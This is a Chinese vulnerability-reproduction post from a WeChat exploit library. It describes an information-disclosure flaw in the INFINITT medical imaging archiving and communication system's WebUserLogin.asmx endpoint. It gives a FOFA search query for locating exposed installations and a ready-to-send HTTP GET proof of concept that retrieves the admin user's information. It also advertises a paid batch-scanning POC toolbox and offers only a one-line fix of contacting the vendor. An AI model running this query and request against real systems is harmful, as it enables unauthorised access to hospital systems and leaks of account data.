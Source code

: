 #  英飞达医学影像存档与通信系统WebUserLogin.asmx接口存在信息泄露漏洞 附POC   
2024-11-4更新  南风漏洞复现文库   2024-11-04 21:40  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 英飞达医学影像存档与通信系统简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
英飞达医学影像存档与通信系统  
## 2.漏洞描述  
  
英飞达医学影像存档与通信系统主要用于医疗图像的采集、存储、浏览、传输和输出。英飞达医学影像存档与通信系统WebUserLogin.asmx接口存在信息泄露漏洞。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
英飞达医学影像存档与通信系统  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3YvePKKDVaIyMXTmy6Adyq1icmNt1SXYZ7hq06AibfnE5Wic30uXdZYib9yLxKN1Y1u5xcW9xtVq4Rabg/640?wx_fmt=png&from=appmsg "null")  
  
英飞达医学影像存档与通信系统WebUserLogin.asmx接口存在信息泄露漏洞  
## 4.fofa查询语句  
  
"INFINITT" && (icon_hash="1474455751" || icon_hash="702238928")  
## 5.漏洞复现  
  
漏洞链接：http://xx.xx.xx.xxx/webservices/WebUserLogin.asmx/GetUserInfoByUserID?userID=admin  
  
漏洞数据包：  
```
GET /webservices/WebUserLogin.asmx/GetUserInfoByUserID?userID=admin HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YvePKKDVaIyMXTmy6Adyq1VSBpp9JHicSKBhvmiaJpUMFicRJibC14SSgOvTBZKrNBiatzX1QUqO0ryvg/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YvePKKDVaIyMXTmy6Adyq1Kse8ZAxYrXWsgZa6MGB5PzdeXIwE8iaRwVMZeasHfvic1E3nFuVb66Qw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YvePKKDVaIyMXTmy6Adyq1XZGOYdyordbHaWAnMKoU6Gxg2lpJRMWcJTyx85L7mrSE4VEqk9dBVw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YvePKKDVaIyMXTmy6Adyq1wctfJsy8swpIzlPbPkkTv213ZzGRVvQScJgDyhpZoOe1FgtefjpJcA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YvePKKDVaIyMXTmy6Adyq1Q2Szj2Ip4ib6LtD0yIOyoPcND2NxvXFbboLrqkDTz6Wxy6bNhFiaH9Kw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YvePKKDVaIyMXTmy6Adyq17M4GRDmdL8qFPmJbKG8dHd6JLvUhjUic2khibrylu3C6IbH5Wfrf0aVQ/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
请联系厂商打补丁 https://www.infinitt.vip/icnweb/  
## 8.往期回顾  
  
  
[时空智友企业流程化管控系统uploadStudioFile接口存在任意文件上传漏洞 -老漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487647&idx=1&sn=c097b974aed0d81ebbb39b47e560e070&chksm=974b9d98a03c148e0c94260ab1a5e8f42572e12732a672977163b3405be49177f5cff0f22fec&scene=21#wechat_redirect)  
  
  
[高校人力资源管理服务平台系统ReportServer接口存在敏感信息泄露漏洞 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487647&idx=2&sn=0a6daa07bc040bc9d6b31d2179c49de8&chksm=974b9d98a03c148e02a119cf14d9129a48136eb90420b486e4c2d8512619bd248add52ba06d1&scene=21#wechat_redirect)  
  
  
